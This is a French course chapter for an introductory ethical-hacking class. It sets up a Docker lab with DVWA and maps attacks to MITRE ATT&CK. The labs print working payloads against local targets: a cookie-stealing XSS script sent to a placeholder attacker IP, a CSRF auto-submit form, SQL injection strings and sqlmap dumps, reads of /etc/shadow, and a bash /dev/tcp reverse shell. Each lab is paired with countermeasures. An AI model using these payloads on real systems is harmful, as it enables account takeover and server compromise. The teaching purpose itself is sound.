




# Chapitre 01 : Introduction au hacking éthique et aux vulnérabilités — Techniques de hacking et contre-mesures - Niveau 1

---

## Objectifs pédagogiques

- Mettre en place l'environnement de lab (Docker, Kali, outils)
- Comprendre le référentiel MITRE ATT&CK et naviguer dans sa matrice
- Distinguer les profils d'attaquants
- Cartographier les attaques (phishing, DDoS, SQLi, XSS) aux techniques ATT&CK
- Prendre en main nmap, Metasploit, Wireshark
- Exploiter les 4 failles web sur DVWA : Reflected XSS, Stored XSS, CSRF, SQLi, Command Injection

---

# Partie 1 — Mise en place de l'environnement (1h30)

## A.1 Vérification des outils Kali

```bash
# Vérification des versions installées des outils essentiels du pentest
# which = localise le chemin d'un exécutable dans le PATH (permet de vérifier qu'un outil est bien installé)
python3 --version     # → Python 3.10+  (interpréteur requis par sqlmap, scripts d'exploit)
docker --version      # → Docker 24+  (moteur de conteneurisation pour les cibles du lab)
nmap --version        # → Nmap 7.94  (scanner réseau standard)
msfconsole --version  # → Metasploit 6.3  (framework d'exploitation)
sqlmap --version      # → sqlmap 1.7  (outil automatisé d'injection SQL)
which nc              # → /usr/bin/nc  (netcat : connexions TCP/UDP, reverse shells)
```

Si un outil manque :
```bash
# sudo = exécute la commande suivante avec les privilèges root (super-utilisateur)
# apt update = rafraîchit la liste des paquets disponibles ; apt install -y = installe les paquets sans demande de confirmation
sudo apt update && sudo apt install -y docker.io docker-compose-v2 git nmap metasploit-framework sqlmap netcat-openbsd curl
# usermod -aG = modifie le compte utilisateur pour l'ajouter (-a) au groupe (-G) docker
# Permet d'utiliser docker sans taper sudo à chaque commande
sudo usermod -aG docker $USER  # -aG = append to Group (préserve les groupes existants)
# Important : fermer ET rouvrir la session (logout/login) pour que le groupe soit pris en compte
# Un simple "su - $USER" ou une nouvelle fenêtre de terminal suffit, pas besoin de rebooter
```

## A.2 Arborescence de travail

```bash
# Création de l'arborescence de travail pour les 5 jours de cours + hors-série (-p = crée les parents si absents)
mkdir -p ~/cours-hacking/{jour-1,jour-2,jour-3,jour-4,jour-5,hors-serie}
# Création des sous-dossiers labs/ pour chaque jour (brace expansion : génère jour-1/labs, jour-2/labs, etc.)
mkdir -p ~/cours-hacking/jour-{1,2,3,4,5}/labs
# cd (change directory) = se déplacer dans le dossier spécifié ; ~/ = raccourci vers le home directory
cd ~/cours-hacking
# git clone = télécharge une copie complète du dépôt Git distant dans le dossier 'repo'
git clone https://github.com/yugmerabtene/techniques-hacking-mdj.git repo
```

Une fois le dépôt cloné, votre arborescence de travail est la suivante :

```text
~/cours-hacking/
├── jour-1/
│   └── labs/              # Travaux pratiques J1
├── jour-2/
│   └── labs/              # Travaux pratiques J2
├── jour-3/
│   └── labs/              # Travaux pratiques J3
├── jour-4/
│   └── labs/              # Travaux pratiques J4
├── jour-5/
│   └── labs/              # Travaux pratiques J5
├── hors-serie/            # Projet KillChainAgent
└── repo/                  # Dépôt du cours (ce répertoire)
    ├── JOUR-01*.md        # Supports de cours
    ├── JOUR-02*.md
    ├── JOUR-03*.md
    ├── JOUR-04*.md
    ├── JOUR-05*.md
    ├── HORS-SERIE-AGENTIC.md
    ├── docker-compose.yml # Conteneurs cibles
    ├── docker/            # Dockerfiles par lab
    └── hors-serie/        # Code source KillChainAgent
```

## A.3 Lancement des conteneurs

```bash
cd ~/cours-hacking/repo
# docker compose up = démarre tous les services définis dans docker-compose.yml
# -d (detached) = arrière-plan, --build = reconstruit les images Docker avant de lancer
docker compose up -d --build
```



**Fig 1** — Topologie du lab : 7 conteneurs cibles exposés sur ports dédiés, orchestrés par Kali Linux hôte.

## A.4 Validation de chaque vulnérabilité

```bash
# DVWA — Vérification que l'application web répond sur le port 8088 (-I = requête HEAD, ne télécharge que les en-têtes)
curl -I http://localhost:8088/login.php
# → HTTP/1.1 200 OK
# Login : admin / password → DVWA Security → low

# SQLi App — Test de la page de recherche avec injection basique sur le paramètre id
curl "http://localhost:8083/?page=search&id=1"
# → Laptop Pro X  (le produit avec id=1 s'affiche, l'appli est accessible)
# Bypass d'authentification : injection SQL commentée (--), -s = mode silencieux (pas de barre de progression)
# grep = filtre les lignes contenant un motif ; -o = affiche uniquement la correspondance (pas la ligne entière)
# | (pipe) = redirige la sortie de la commande gauche vers l'entrée de la commande droite
curl -s -d "page=login&username=admin'%20--&password=x" "http://localhost:8083/" | grep -o "Connecté"
# → Connecté en tant que admin  (le commentaire -- neutralise le check du password)

# vsftpd 2.3.4 — Bannière FTP attendue sur le port 21 (-w2 = timeout de 2 secondes)
# echo = affiche du texte dans la sortie standard ; le pipe | envoie cette sortie vers l'entrée standard (stdin) de nc
# nc (netcat) = couteau suisse réseau : connexions TCP/UDP, transfert de données, écoute de ports
echo "" | nc -w2 localhost 21
# → 220 (vsFTPd 2.3.4)  (version connue vulnérable, exploitable via Metasploit)

# Samba — Scan nmap de détection de version (-sV) sur le port 445 uniquement (-p)
nmap -sV -p 445 localhost | grep 445
# → 445/tcp open netbios-ssn Samba smbd 3.0.20  (version ancienne vulnérable)

# Buffer overflow — Vérification que le port 9001 est ouvert (-z = scan sans envoyer de données)
nc -z localhost 9001 && echo "OK"

# WAF — Requête normale : code HTTP attendu → 200 (-o /dev/null = jette le corps, -w formate la sortie)
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1"
# → 200  (page accessible normalement)
# Requête avec injection SQL : le WAF (ModSecurity) doit bloquer → 403 Forbidden
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1 OR 1=1"
# → 403 (WAF bloque)  (ModSecurity détecte et rejette la tentative d'injection SQL)

# Secure Linux — Test de connectivité SSH sur le port 2224
nc -z localhost 2224 && echo "SSH OK"

# Forensic victim — Exécution de commande via le paramètre cmd (command injection volontaire pour les exercices forensic)
curl "http://localhost:8082/?cmd=id"
# → uid=33(www-data)  (l'utilisateur serveur web est bien www-data, injection confirmée)

# Validation automatique
cd ~/cours-hacking/repo
```

---

# Partie 2 — Introduction au hacking éthique (4h30)

---

## Introduction

Toute démarche de sécurité commence par la compréhension du paysage des menaces. Avant de lancer un scan ou d'exploiter une faille, il faut un **langage commun** pour décrire les comportements adverses. Ce langage, c'est **MITRE ATT&CK** — le standard adopté par les SOC, les CERT et les pentesters.

Ce chapitre couvre la matrice ATT&CK (14 tactiques, 200+ techniques), le mapping des attaques classiques vers leurs IDs, et l'exploitation des 4 vulnérabilités web les plus répandues.

> **Sources :** [MITRE ATT&CK Framework](https://attack.mitre.org/)

---

## 1. MITRE ATT&CK — La matrice des TTPs

**Tactique** = l'objectif (pourquoi). **Technique** = la méthode (comment). **Procédure** = l'implémentation spécifique d'un groupe.



**Fig 2** — Chaîne complète MITRE ATT&CK v15 : 14 tactiques de la Reconnaissance à l'Impact.

### Correspondance attaques → techniques ATT&CK


**Fig 3** — Mapping des attaques classiques (Phishing, DDoS, SQLi, XSS, CSRF) vers leurs techniques et tactiques MITRE ATT&CK.

---

## 2. Profils d'attaquants



**Fig 4** — Taxonomie des profils d'attaquants : White Hat, Black Hat, Grey Hat, Hacktiviste, APT.

---

## 3. Outils fondamentaux

### nmap → [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

```bash
# nmap -sV : détection de version des services (-sV = probe les bannières pour identifier version précise)
nmap -sV <IP>              # Scan avec version
# nmap -A : mode agressif = OS fingerprint (-O) + scripts (-sC) + versions (-sV) + traceroute
nmap -A <IP>               # OS + scripts + versions
# nmap --script vuln : exécute les scripts NSE de la catégorie vuln (détection CVE connues)
nmap --script vuln <IP>    # Vulnérabilités connues
```

### Metasploit → [TA0001](https://attack.mitre.org/tactics/TA0001/)-TA0006

```bash
# Lancement de la console interactive Metasploit (framework d'exploitation modulaire)
msfconsole
# Recherche d'un exploit par mot-clé (ex: vsftpd, samba, eternalblue)
search <exploit>
# Sélection du module d'exploit à utiliser (chemin complet dans l'arborescence Metasploit)
use <chemin>
# Définit l'adresse IP de la cible distante (RHOSTS = Remote HoSTS)
set RHOSTS <IP>
# Lance l'exploit configuré contre la cible
exploit
```

### Wireshark → [T1040](https://attack.mitre.org/techniques/T1040/) Network Sniffing

Filtres : `http`, `tcp.port == 80`, `ip.addr == <IP>`

---

## 4. Les 4 vulnérabilités web fondamentales

### XSS → [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise

**Contexte métier :** 65% des applications web ont eu au moins une XSS. Un attaquant vole le cookie de session d'un administrateur → accès complet au back-office.

**Fonctionnement :** L'application prend une entrée utilisateur (formulaire, URL) et l'affiche sans échapper les caractères HTML. Le navigateur interprète `<script>` comme du code exécutable.



**Fig 5** — Flux d'attaque XSS réfléchie : injection de script dans la page, exécution côté victime, exfiltration du cookie de session.

```html
<script>alert('XSS')</script>
<script>new Image().src='http://<KALI_IP>:8000/?c='+document.cookie</script>
```

### CSRF → [T1203](https://attack.mitre.org/techniques/T1203/) Exploitation for Client Execution

**Contexte métier :** L'attaquant force un utilisateur authentifié à exécuter une action (virement, changement de mot de passe) sans son consentement, simplement en visitant une page piégée.

```html
<form action="http://<CIBLE>/change_password.php" method="POST">
  <input name="new_password" value="hacked">
</form>
<script>document.forms[0].submit();</script>
```

### SQL Injection → [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

**Contexte métier :** Première cause de breach de données selon l'OWASP. Un attaquant extrait la base clients complète, la revend sur le dark web. Coût moyen : 4.5M$.

**Fonctionnement :** La requête SQL construite par concaténation de chaînes inclut l'entrée utilisateur. `SELECT * FROM users WHERE id='1' OR '1'='1'` retourne tout car `'1'='1'` est toujours vrai.

```sql
admin' OR '1'='1' --
' UNION SELECT username, password FROM users --
```

### Command Injection → [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell

**Contexte métier :** 30% des applications qui exécutent des commandes système sont vulnérables. Un `ping` mal sécurisé donne un shell complet sur le serveur.

**Fonctionnement :** `system("ping " + $input)` exécute `ping 127.0.0.1; ls /etc/`. Le `;` termine la première commande et en lance une seconde.

```bash
# Commande séparateur ; exécute ls après le ping (le point-virgule termine la 1ère commande et en lance une 2ème)
; ls /etc/passwd
# Pipe | redirige la sortie du ping vers whoami (qui ignore l'entrée mais s'exécute quand même)
| whoami
# Opérateur && exécute cat seulement si le ping réussit (code retour 0)
&& cat /etc/shadow
```

---

## Lab 1.1 — Scan et découverte de DVWA

###  Fiche

| Durée | Conteneur | Dossier | Outils |
|---|---|---|---|
| 30 min | dvwa (port 8088) | `~/cours-hacking/jour-1/labs/` | nmap, gobuster, curl |

### Contexte métier

Avant tout pentest, on scanne la cible pour cartographier sa surface d'attaque. Un scan nmap + une énumération web (gobuster) sont systématiquement demandés par le client dans le rapport.

### Étape 1 — Scan nmap

```bash
cd ~/cours-hacking/jour-1/labs
# 📌 Scan nmap du port DVWA : détection de version du service web
# 🔍 -sV = probe les bannières pour identifier la version précise du service
# 🔍 -p 8088 = port cible, tee = affiche la sortie ET la sauvegarde dans un fichier
nmap -sV -p 8088 localhost | tee nmap_dvwa.txt
# → PORT 8088/tcp open http Apache httpd 2.4.X  (service web Apache confirmé)
```

### Étape 2 — Énumération gobuster

```bash
cd ~/cours-hacking/jour-1/labs
# 📌 Énumération des répertoires web cachés avec gobuster
# 🔍 dir = mode scan de répertoires, -u = URL cible, -w = wordlist de noms communs
# 🔍 -q = mode silencieux (masque la bannière), | tee = affiche + sauvegarde
gobuster dir -u http://localhost:8088 \
  -w /usr/share/wordlists/dirb/common.txt -q | tee gobuster_dvwa.txt
# → /login.php (200)        page de connexion accessible
# → /vulnerabilities (301)  répertoire des pages vulnérables
# → /config (301)           répertoire de configuration (potentiellement sensible)
```

### Étape 3 — Connexion DVWA

```bash
# 📌 Connexion à DVWA via le formulaire d'authentification admin/password
# 🔍 -s = silencieux (pas de barre de progression), -c = sauvegarde le cookie dans un fichier
# 🔍 -d = données POST (username=admin&password=password&Login=Login)
# 🔍 grep -o extrait "Welcome" (succès) ou "Login failed" (échec) pour validation
curl -s -c /tmp/dvwa_cookie.txt \
  -d "username=admin&password=password&Login=Login" \
  "http://localhost:8088/login.php" | grep -o "Welcome\|Login failed"
# → Welcome  (authentification réussie, cookie stocké dans /tmp/dvwa_cookie.txt)

# 📌 Définir le niveau de sécurité sur "low" (obligatoire pour les labs)
# Firefox : http://localhost:8088 → DVWA Security → low
# Alternative sans navigateur :
# 🔍 -b = envoie le cookie d'auth, -c = met à jour le fichier avec le nouveau cookie security=low
curl -s -b /tmp/dvwa_cookie.txt -c /tmp/dvwa_cookie.txt \
  -d "security=low&seclev_submit=Submit" \
  "http://localhost:8088/security.php"
# Le cookie jar contient maintenant PHPSESSID + security=low
# Plus besoin d'ouvrir Firefox pour les labs suivants
```

### Checkpoints
- [ ] nmap : port 8088 ouvert, Apache
- [ ] gobuster : /login.php, /vulnerabilities trouvés
- [ ] Connexion DVWA réussie

### 🔒 Contre-mesure (M1031 Network Intrusion Prevention + M1037 Firewall)

La reconnaissance ennemie se contrecarre en **réduisant la surface d'attaque** :

| Mitigation | Action concrète |
|---|---|
| **M1037** Firewall | UFW pour limiter les ports exposés au strict nécessaire (`ufw default deny incoming`) |
| **M1042** Disable Service | Désactiver le directory listing Apache (`Options -Indexes`) |
| **M1031** IDS/IPS | Snort/Suricata pour détecter les patterns de scan nmap et gobuster |

```bash
# Désactiver le directory listing sur Apache DVWA (empêche gobuster d'énumérer les dossiers)
# docker exec = exécute une commande à l'intérieur d'un conteneur déjà en cours d'exécution
# bash -c '...' = lance un nouveau shell bash et exécute la chaîne de commandes entre guillemets
# apache2ctl restart = redémarre le serveur web Apache (pour appliquer les changements de configuration)
docker exec dvwa-target bash -c "echo 'Options -Indexes' >> /etc/apache2/conf-enabled/security.conf && apache2ctl restart"
# Vérification : gobuster trouve moins de répertoires exposés
gobuster dir -u http://localhost:8088 -w /usr/share/wordlists/dirb/common.txt -q 2>/dev/null | head -3
# → La surface d'attaque visible est réduite
```

---

## Lab 1.2 — Exploitation XSS

###  Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise |

### Contexte technique

Reflected XSS injecte du code dans l'URL, exécuté immédiatement. Stored XSS persiste en base de données. Dans un vrai pentest, on montre les deux car l'impact diffère : Reflected cible un utilisateur, Stored toutes les visites.

### Étape 1 — Reflected XSS

Dans DVWA → **XSS (Reflected)** → champ "What's your name?" :

```html
<script>alert('XSS fonctionnel')</script>
```
→ Popup JavaScript. La faille est confirmée.

### Étape 2 — Vol de cookie

**Terminal 1** — écouteur HTTP :
```bash
cd ~/cours-hacking/jour-1/labs
# Lancement d'un serveur HTTP minimal sur le port 8000 (-m http.server) pour recevoir les cookies exfiltrés via XSS
# Lancement d'un serveur HTTP minimal sur le port 8000 : -m = exécute le module Python http.server intégré
# 8000 = port d'écoute arbitraire ; le serveur affiche chaque requête entrante (URL, IP source, User-Agent)
python3 -m http.server 8000  # Écoute sur toutes les interfaces, affiche chaque requête entrante (GET /?cookie=...)
```

**Terminal 2** — payload dans DVWA (remplacer l'IP par `hostname -I`) :
```html
<script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
```

L'écouteur reçoit : `GET /?cookie=PHPSESSID=abc123...` → cookie volé.

Retournez dans le **Terminal 1** (écouteur HTTP) pour confirmer.

### Étape 3 — Stored XSS

DVWA → **XSS (Stored)** :
```html
Name: Attaquant
Message: <script>alert('Stored XSS')</script>
```
→ Popup à chaque rafraîchissement. Stocké en base.

###  Contre-mesure (M1013 Application Hardening + M1054 Secure Coding)

| Attaque | Défense | Code de correction |
|---|---|---|
| Reflected/Stored XSS | **`htmlspecialchars()`** | `htmlspecialchars($input, ENT_QUOTES, 'UTF-8')` neutralise `<`, `>`, `"`, `'` |
| Cookie theft | **Cookie `HttpOnly`** | `session.cookie_httponly = 1` — le cookie n'est plus accessible via `document.cookie` |
| Inline scripts | **CSP Header** | `Content-Security-Policy: script-src 'self'` — bloque tout `<script>` injecté |

```bash
# Activer HttpOnly sur les cookies de session PHP dans DVWA
docker exec dvwa-target bash -c "
  echo 'session.cookie_httponly = 1' >> /etc/php/*/apache2/php.ini
  apache2ctl restart
"
# Vérification : le fichier php.ini contient bien la directive HttpOnly
docker exec dvwa-target bash -c "grep 'session.cookie_httponly' /etc/php/*/apache2/php.ini"
# → session.cookie_httponly = 1  (confirmé)

# Re-tester le vol de cookie via XSS : le payload <script>new Image().src=... ne peut plus lire document.cookie
curl -s -b /tmp/dvwa_cookie.txt \
  "http://localhost:8088/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C%2Fscript%3E" 2>/dev/null \
  | grep -o "&lt;script&gt;\|alert"
# → &lt;script&gt;alert(1)&lt;/script&gt;  (le code HTML est échappé, pas exécuté par le navigateur)
```

> **Checkpoint défensif :** `htmlspecialchars()` + `HttpOnly` neutralisent l'XSS : plus de popup, cookie inaccessible.

---

## Lab 1.3 — Injection SQL avec sqlmap

###  Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App |

### Contexte technique

La requête `SELECT first_name, last_name FROM users WHERE user_id = '$id'` devient `WHERE user_id = '1' OR '1'='1' #'` → retourne tous les utilisateurs. sqlmap automatise l'extraction complète.

### Étape 1 — Test manuel

**Important :** utilisez le cookie jar sauvegardé précédemment dans `/tmp/dvwa_cookie.txt`. Il contient déjà votre PHPSESSID et le niveau `security=low` (définis au Lab 1.1).

```bash
# Test manuel d'injection SQL : -b lit le cookie depuis le fichier jar (PHPSESSID + security=low inclus)
# L'URL contient ' OR '1'='1' # encodé en URL (%27 = ', %20 = espace, %3D = =, %23 = #)
# grep -c compte les occurrences de "First name" → doit retourner 5 (tous les users) au lieu de 1
curl -s -b /tmp/dvwa_cookie.txt \
  "http://localhost:8088/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271%27+%23&Submit=Submit" \
  | grep -c "First name"
# → 5 (5 utilisateurs affichés au lieu d'1)  (injection SQL confirmée : tous les enregistrements sont retournés)
```

### Étape 2 — sqlmap : dumper les utilisateurs

```bash
cd ~/cours-hacking/jour-1/labs

# sqlmap : --cookie-file = charge les cookies depuis le fichier jar au format Netscape (PHPSESSID + security=low)
# -u = URL cible, -D = base de données cible (dvwa), -T users = table cible
# -C user,password = colonnes à extraire, --dump = affiche le contenu, --batch = mode non-interactif
sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie-file=/tmp/dvwa_cookie.txt \
  -D dvwa -T users -C user,password --dump --batch
```
Sortie attendue :

```console
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```

### Checkpoints
- [ ] SQLi manuelle : 5 utilisateurs affichés
- [ ] sqlmap : 5 utilisateurs extraits avec hashs MD5

### 🔒 Contre-mesure (M1013 Application Hardening + M1041 WAF)

L'injection SQL se corrige en **ne concaténant jamais l'entrée utilisateur dans une requête** :

| Vulnérabilité | Correction | Exemple |
|---|---|---|
| `WHERE id = '$id'` | **Requêtes préparées PDO** | `$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?"); $stmt->execute([$id]);` |
| Hash MD5 faible | **bcrypt / argon2** | `password_hash($p, PASSWORD_BCRYPT)` au lieu de `md5($p)` |
| WAF absent | **ModSecurity CRS** | Règle `942100` bloque les signatures SQLi (déjà actif sur le lab WAF J3) |

```bash
# Démonstration : remplacer la requête vulnérable DVWA par une requête préparée PDO
# Dans le code vulnérable : $query = "SELECT * FROM users WHERE user_id = '$id'";
# Le code corrigé devient :
#   $stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
#   $stmt->execute([$id]);
# 
# Re-tester sqlmap après correction :
# sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie-file=/tmp/dvwa_cookie.txt --batch
# → [CRITICAL] all tested parameters do not appear to be injectable (sqlmap échoue = défense efficace)
```

> **Checkpoint défensif :** Après passage en requêtes préparées, sqlmap ne détecte plus l'injection.

---

## Lab 1.4 — Command Injection + Reverse Shell

###  Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell |

### Contexte technique

La fonction `shell_exec("ping -c 4 " . $target)` exécute tout ce qui suit `ping`. Avec `;`, on chaîne une deuxième commande. Avec un reverse shell, on obtient un shell interactif complet — plus puissant qu'une simple commande.

### Étape 1 — Command injection basique

DVWA → **Command Injection** :
```bash
127.0.0.1; whoami     → www-data
127.0.0.1; ls /etc/   → contenu de /etc/
127.0.0.1; cat /etc/passwd → utilisateurs
```

### Étape 2 — Reverse shell

**Terminal 1** — écouteur :
```bash
# Écouteur netcat : -l = mode listen (serveur), -v = verbeux, -n = pas de résolution DNS (plus rapide), -p 4444 = port d'écoute
nc -lvnp 4444  # Attend une connexion entrante du reverse shell, donne un prompt interactif une fois connecté
```

**Terminal 2** — via DVWA (remplacer `<KALI_IP>` par l'IP de votre Kali) :
```bash
# Trouve l'IP de l'interface docker0 (passerelle entre l'hôte Kali et les conteneurs Docker)
# ip addr show docker0 = affiche la config réseau, grep 'inet ' = filtre la ligne IPv4
# awk '{print $2}' = extrait l'IP/CIDR, cut -d/ -f1 = retire le masque (/16) pour ne garder que l'IP
# ip = outil moderne de gestion réseau (remplace ifconfig) ; addr show = affiche les adresses IP d'une interface
# awk = langage de traitement de texte ligne par ligne ; '{print $2}' extrait le 2ème champ (séparé par espaces)
# cut -d/ -f1 = découpe la chaîne avec le délimiteur / et garde le 1er champ (retire le masque CIDR)
ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
# → généralement 172.17.0.1  (c'est l'IP que les conteneurs utilisent pour joindre l'hôte Kali)

# Payload dans DVWA Command Injection :
# Décorticage de la commande de reverse shell (morceau par morceau) :
#   1. 127.0.0.1;          → ping localhost (normal), puis le ; enchaîne la 2e commande
#   2. bash -c '...'        → exécute la chaîne entre guillemets dans un sous-shell bash dédié
#   3. bash -i               → lance un shell bash interactif (avec invite de commandes, historique)
#   4. >& /dev/tcp/IP/PORT   → redirige stdout (sortie) ET stderr (erreurs) vers la socket TCP distante
#   5. 0>&1                  → redirige stdin (entrée clavier) vers la même socket
#   Résultat : votre terminal local est connecté à distance au serveur → shell complet
127.0.0.1; bash -c 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1'
```

**Checkpoint :** Retournez dans le **Terminal 1** (netcat) : une connexion entrante apparaît, suivie d'un prompt shell. Tapez `whoami` → `www-data`.

### 🔒 Contre-mesure (M1013 + M1018 Execution Prevention)

La command injection se neutralise en **ne passant jamais l'entrée utilisateur à un interpréteur shell** :

| Vulnérabilité | Correction | Code |
|---|---|---|
| `shell_exec("ping " . $input)` | **`escapeshellcmd()` + `escapeshellarg()`** | `$safe = escapeshellarg($input); shell_exec("ping -c 4 " . $safe);` |
| Shell interactif | **Ne pas utiliser `shell_exec()`** | Remplacer par `proc_open()` avec tableau d'arguments (pas de string) |
| Processus shell | **`open_basedir` + `disable_functions`** | Désactiver `system`, `exec`, `passthru`, `shell_exec`, `popen` dans `php.ini` |
| Reverse shell sortant | **Firewall egress filtering** | `ufw default deny outgoing` (ne permettre que les flux légitimes) |

```bash
# Appliquer le principe du moindre privilège : désactiver les fonctions dangereuses dans PHP
docker exec dvwa-target bash -c "
  sed -i 's/disable_functions =.*/disable_functions = system,exec,passthru,shell_exec,popen,proc_open/' /etc/php/*/apache2/php.ini
  apache2ctl restart
"
# Vérification : shell_exec est-il bien désactivé ?
docker exec dvwa-target bash -c "php -r 'echo function_exists(\"shell_exec\") ? \"actif\" : \"inactif\";'"
# → inactif  (shell_exec est bien désactivé)

# Re-tester l'injection de commande :
curl -s "http://localhost:8088/vulnerabilities/exec/" --data "ip=127.0.0.1;whoami&Submit=Submit" \
  -b /tmp/dvwa_cookie.txt 2>/dev/null | grep -c "www-data"
# → 0 (whoami ne s'exécute plus : shell_exec est désactivé)
```

> **Checkpoint défensif :** Après `disable_functions`, l'injection de commande et le reverse shell échouent.

> **☕ Pause recommandée :** Le Lab 1.5 ci-dessous est le plus long et le plus dense de la journée.
> Prenez 5-10 minutes avant de l'attaquer — vous allez enchaîner injection SQL sur 3 points d'entrée,
> extraction automatisée avec sqlmap, et cracking de mots de passe. Un esprit reposé est plus efficace
> pour analyser les résultats.

---

## Lab 1.5 — SQLi avancée : Trouver, Exploiter, Craquer

###  Fiche

| Durée | Conteneur | Dossier | Techniques |
|---|---|---|---|
